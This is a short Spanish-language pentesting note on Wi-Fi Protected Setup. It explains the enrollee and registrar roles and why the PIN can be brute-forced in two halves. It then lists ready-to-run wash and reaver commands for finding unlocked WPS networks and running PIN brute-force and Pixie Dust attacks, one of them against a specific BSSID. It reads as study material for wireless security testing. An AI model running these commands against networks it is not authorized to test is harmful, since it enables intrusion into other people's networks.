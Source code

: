 # Info

- **WPS(Wi-FI Protected setup)** fue creado para unificar a los proveedores de tencología con el fin de compartir passphrases WPA y WPA2 de manera segura utilizando métodos diferentes.
- Permite en muchos casos configurar dispositivos fácil para usuarios sin conocimiento (al punto de que en la mayoría de los casos lo único que hay que poner es un pin o tocar un botón)
  
# Roles

WPS distingue 2 roles

| Rol | Desc |
|----|----|
| Enrollee | Un dispositivo intentando conectarse a la red |
| Registrar | configura los enrollees para que se unan a la red |



# Teoría del ataque

Los ataques se dan sobre la implementación basada en pin.

La validación del PIN se realiza en dos partes. Se valida la primera mitad (primeros 4 dígitos), luego la segunda mitad(3) y el último número es una suma de comprobación.

La primera mitad del pin se valida entre los mensajes M1 a M4. SI recibimos el M5 quiere decir que es correcto. El si la segunda mitad es correcta recibimos el M7 junto con la config.


# Ataque

### Buscar redes WEP
BUscamos WPS 1.0 y que no estén loocked.

    wash -i <interfaz_mon>

### Atacar 

    sudo reaver -b <BSSID> -i <interfaz> -v -c <channel>

### PixieWPS attack

    sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
